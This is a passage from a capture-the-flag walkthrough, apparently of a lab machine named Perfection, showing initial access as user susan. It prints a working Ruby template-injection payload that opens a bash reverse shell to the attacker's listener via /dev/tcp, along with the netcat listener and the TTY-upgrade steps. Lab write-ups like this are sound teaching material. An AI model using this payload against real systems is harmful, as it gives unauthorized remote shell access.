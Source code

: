 # Access as susan

Now we can insert a payload to gain access to the machine via reverse shell after spawning a nc listener:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

![Reverse shell](/assets/images/Perfection/reverse-shell.png)

> SSTI Payload used: ```<%= system('bash -c "bash -i >& /dev/tcp/10.10.15.19/443 0>&1"') %>```

We successfully gained access as susan:

```bash
connect to [10.10.15.19] from (UNKNOWN) [10.10.11.253] 45704
bash: cannot set terminal process group (993): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ 
```

Now do the common tty trick to having a completely interactive shell, do ctrl+c, ctrl+l, etc:

```bash
susan@perfection:~/ruby_app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
susan@perfection:~/ruby_app$ ^Z
[1]  + 38875 suspended  nc -lvnp 443
❯ stty raw -echo;fg
[1]  + 38875 continued  nc -lvnp 443
                                    reset xterm
susan@perfection:~/ruby_app$ export TERM=xterm
susan@perfection:~/ruby_app$ export SHELL=bash
susan@perfection:~/ruby_app$ stty rows 50 cols 184
```

* ``script /dev/null -c bash``: Spawns a tty
* ``ctrl+z``: puts the shell in background for later doing a treatment
* ``stty raw -echo; fg``: give us the shell back again
* ``reset xterm``: resets the terminal to give us the bash console
* ``export TERM=xterm``: let us do ctrl+l to clean the terminal
* ``export SHELL=bash``: specifies the system that we are using a bash console

And we can see user.txt:

```bash
susan@perfection:~/ruby_app$ cd ~
susan@perfection:~$ cat user.txt 
5f****************************3e
```

# Privilege escalation to root
